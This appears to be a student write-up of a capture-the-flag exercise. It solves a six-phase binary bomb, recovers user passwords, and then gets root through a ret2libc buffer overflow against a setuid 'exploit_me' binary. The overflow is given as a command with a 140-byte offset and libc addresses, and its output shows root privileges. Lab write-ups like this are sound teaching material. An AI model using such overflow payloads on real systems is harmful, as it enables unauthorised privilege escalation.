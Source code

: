 when logged as laurie. A readme tells us to defuse the bomb (binary file).

using hopper:

phase1:
checks that our input is 'Public speaking is very easy.'

phase2:
calculates the factorials until 6! '1 2 6 24 120 720'

phase3:
simple switch cases, there are multiple answers. we take the first one with the hint '1 b 214'

phase4:
asks for the index of the 10th element of the fibonacci sequence but theirs start with [1, 1] so answer is '9'

phase5:
takes a string of len 6, for each char does c & 0xf with returns an int < 16
those 6 integers are used as indexes for a new string of length 6
the string that takes those integers as indexes is "isrveawhobpnutfg"
the newly constructed string is then compared to "giants" and if they are equal we get to the next phase
we did a quick script to see which letters could be used (phase5.py)
here are the results:
g: [o]
i: [p]
a: [e, u]
n: [k]
t: [m]
s: [a, q]
so the possibilites are:
opekma opekmq opukma opukmq
all work

phase6:
0x804b26c address is called
using gdb it tells us that it is 'node1', we can find the nodes up to node6 with nodeX_address = nodeX-1 - 0xC (12 in dec)
node1 = 253
node2 = 725
node3 = 301
node4 = 997
node5 = 212
node6 = 432
function verifies that our 6 inputs are below 6, so it checks for node index
at the end cheks that the order is decreasing -> '4 2 6 3 1 5'

after testing a few possibilites password for thor is Publicspeakingisveryeasy.126241207201b2149opekmq426135
3 and 1 are switched because subject is shit https://stackoverflow.com/c/42network/questions/664

https://www.calormen.com/jslogo/ for turtle
-> 'SLASH' that we must digest
-> md5 'slash : 646da671ca01bb5d84dbb5fb2238dc8e

in zaz, binary named exploit_me with 'root' as its owner
there's an strcpy call, let's try to overflow
we overflow with an offset of 140 to the saved eip

we can get system, exit and "/bin/sh" addresses to do a ret2libc attack
`./exploit_me python -c 'print("a"*140 + "\xb7\xe6\xb0\x60"[::-1] + "\xb7\xe5\xeb\xe0"[::-1] + "\xb7\xf8\xcc\x58"[::-1])'`
we're in a shell
#`id`
uid=1005(zaz) gid=1005(zaz) euid=0(root) groups=0(root),1005(zaz)
we are root!
